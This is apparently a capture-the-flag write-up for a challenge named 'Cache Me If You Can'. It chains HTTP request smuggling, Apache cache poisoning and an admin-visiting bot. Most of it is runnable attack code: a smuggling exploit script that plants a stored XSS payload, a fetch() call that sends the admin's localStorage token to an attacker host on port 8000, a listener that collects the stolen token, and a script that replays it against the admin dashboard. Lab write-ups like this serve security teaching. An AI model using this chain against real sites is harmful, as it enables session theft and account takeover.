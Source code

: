 # Cache Me If You Can - Writeup

## Vulnerabilities Explained

1. **HTTP Request Smuggling**
   - Apache config enables both Content-Length and Transfer-Encoding:
   ```apache
   SetEnv proxy-sendchunked 1
   SetEnv proxy-sendcl 1
   HttpProtocolOptions Unsafe
   ```
   - Flask backend has vulnerable smuggling check:
   ```python
   @bp.before_request
   def handle_smuggling():
       if request.method == 'POST':
           content_length = request.headers.get('Content-Length')
           if content_length and int(content_length) > 0:
               # Process normally, allowing for smuggling
               pass
   ```

2. **Cache Poisoning**
   - Apache enables caching with dangerous configuration:
   ```apache
   CacheRoot "/usr/local/apache2/cache"
   CacheEnable disk /
   CacheDefaultExpire 60
   Header add X-Cache-Key "%{REQUEST_URI}e:%{HTTP:X-Special-Key}e"
   ```
   - Special key enables cache control:
   ```apache
   SetEnvIf X-Special-Key "secret_cache_key" ENABLE_CACHE=1
   Header set Cache-Control "public, max-age=60" env=ENABLE_CACHE
   ```

3. **Admin Bot Vulnerability**
   - Bot automatically visits reported posts with admin token:
   ```python
   driver.execute_cdp_cmd('Network.setExtraHTTPHeaders', {
       'headers': {
           'Authorization': f'Bearer {self.admin_token}',
           'X-Admin-Request': 'true'
       }
   })
   ```

## Exploitation Script

```python
import requests
import time

SERVER_URL = "http://SERVER_IP"  # Change this to your target IP

def login_user():
    """Login and get JWT token"""
    login_data = {
        "username": "user",
        "password": "user123"
    }
    r = requests.post(f"{SERVER_URL}/api/auth/login", json=login_data)
    return r.json()['token']

def exploit():
    # Step 1: Login as normal user
    user_token = login_user()
    print(f"[+] Got user token: {user_token[:20]}...")

    # Step 2: Create smuggled request with XSS payload
    xss_payload = '<script>fetch("http://YOUR-IP:8000/steal?" + localStorage.getItem("token"))</script>'
    
    # Craft headers for smuggling
    headers = {
        'Content-Type': 'application/x-www-form-urlencoded',
        'Content-Length': '4',
        'Transfer-Encoding': 'chunked',
        'Connection': 'keep-alive',
        'X-Special-Key': 'secret_cache_key',
        'Authorization': f'Bearer {user_token}'
    }

    # Create body with smuggled content
    body = (
        "XXXX"  # Matches Content-Length: 4
        "\r\n0\r\n\r\n"  # End chunked request
        "GET /api/blog/post/1 HTTP/1.1\r\n"
        "Host: localhost\r\n"
        "X-Special-Key: secret_cache_key\r\n"
        "Content-Type: application/json\r\n"
        "\r\n"
        f'{{"content": "{xss_payload}"}}'
    )

    # Send smuggled request
    print("[+] Sending smuggled request...")
    r = requests.post(
        f"{SERVER_URL}/api/blog/post/1",
        headers=headers,
        data=body
    )
    print(f"[+] Smuggle response: {r.status_code}")

    # Step 3: Report post to trigger admin visit
    print("[+] Reporting post...")
    headers = {
        'Authorization': f'Bearer {user_token}',
        'Content-Type': 'application/json'
    }
    report_data = {"postId": 1}
    r = requests.post(
        f"{SERVER_URL}/api/blog/report",
        headers=headers,
        json=report_data
    )
    print(f"[+] Report sent: {r.status_code}")

if __name__ == "__main__":
    exploit()
```

## Token Collector Script

```python
from http.server import HTTPServer, BaseHTTPRequestHandler
import urllib.parse

class TokenCollector(BaseHTTPRequestHandler):
    def do_GET(self):
        print("\n=== Captured Admin Token ===")
        token = urllib.parse.unquote(self.path.split('?')[1])
        print(f"Token: {token}")
        print("==========================")
        
        self.send_response(200)
        self.end_headers()

print("[+] Starting token collector on port 8000...")
HTTPServer(('0.0.0.0', 8000), TokenCollector).serve_forever()
```

## Getting the Flag

Once you have the admin token:

1. Login using the stolen token:
```python
import requests

SERVER_URL = "http://SERVER_IP"
ADMIN_TOKEN = "stolen_token_here"

headers = {
    'Authorization': f'Bearer {ADMIN_TOKEN}',
    'Content-Type': 'application/json'
}

r = requests.get(f"{SERVER_URL}/api/admin/dashboard", headers=headers)
print(r.text)  # Contains the flag
```

## Exploitation Steps

1. Run the collector script in one terminal:
```bash
python3 collector.py
```

2. Run the exploit script in another terminal:
```bash
python3 exploit.py
```

3. Wait for admin bot to visit and send their token to your collector

4. Use the captured admin token to access the dashboard and get the flag

The flag will be in the admin dashboard response!